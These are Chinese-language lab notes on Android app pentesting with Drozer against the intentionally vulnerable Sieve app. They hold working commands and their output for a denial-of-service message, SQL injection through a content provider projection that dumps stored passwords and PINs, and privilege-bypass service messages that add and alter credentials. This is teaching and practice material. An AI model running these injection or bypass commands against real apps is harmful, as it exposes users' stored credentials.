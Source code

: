 漏洞样本1 - 拒绝服务
```
dz> run app.service.send --msg 2354 9234 1 com.mwr.example.sieve com.mwr.example.sieve.AuthService
```

漏洞样本2 - 越权
```
# 初始状态
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"
| Password         | pin  |
| admin12345678900 | 6666 |
| admin666         | 8888 |

# 越权新建密码
dz> run app.service.send --msg 6345 7452 1 --extra string com.mwr.example.sieve.PASSWORD admin888 --bundle-as-obj com.mwr.example.sieve com.mwr.example.sieve.AuthService
Got a reply from com.mwr.example.sieve/com.mwr.example.sieve.AuthService:
  what: 4
  arg1: 42
  arg2: 0
  Empty
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"
| Password         | pin  |
| admin12345678900 | 6666 |
| admin666         | 8888 |
| admin888         | null |

# 越权修改新建密码的PIN
dz> run app.service.send --msg 6345 9234 1 --extra string com.mwr.example.sieve.PIN 6789 --bundle-as-obj com.mwr.example.sieve com.mwr.example.sieve.AuthService
Got a reply from com.mwr.example.sieve/com.mwr.example.sieve.AuthService:
  what: 4
  arg1: 41
  arg2: 0
  Empty
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"
| Password         | pin  |
| admin12345678900 | 6666 |
| admin666         | 8888 |
| admin888         | 6789 |
```

### 本地存储测试
确定目标app的本地存储位置，在Data Directory展示
dz> run app.package.info -a com.mwr.example.sieve
```
Package: com.mwr.example.sieve
  Application Label: Sieve
  Process Name: com.mwr.example.sieve
  Version: 1.0
  Data Directory: /data/user/0/com.mwr.example.sieve
  APK Path: /data/app/~~faaSHd6qhAabsR7SxrEqVQ==/com.mwr.example.sieve-b3y0QLZRofYnhM2X5CfLSg==/base.apk
  UID: 10243
  GID: [3003]
  Shared Libraries: [/system/framework/android.test.base.jar, /system/framework/org.apache.http.legacy.jar]
  Shared User ID: null
  Uses Permissions:
  - android.permission.READ_EXTERNAL_STORAGE
  - android.permission.WRITE_EXTERNAL_STORAGE
  - android.permission.INTERNET
```